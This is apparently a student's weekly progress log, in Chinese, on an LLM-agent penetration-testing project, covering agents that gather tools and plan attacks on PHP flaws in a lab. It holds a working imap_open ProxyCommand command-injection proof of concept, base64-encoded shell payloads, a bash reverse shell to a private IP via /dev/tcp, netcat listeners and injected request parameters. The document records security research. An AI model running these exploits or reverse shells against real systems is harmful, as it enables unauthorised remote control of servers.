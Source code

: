 # 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度


![1751465457751](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465457751.png)

![1751465042166](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465042166.png){

## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  ![1751465415250](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465415250.png)

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent 

启用搜索的时机还要再规划一下

```html
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```
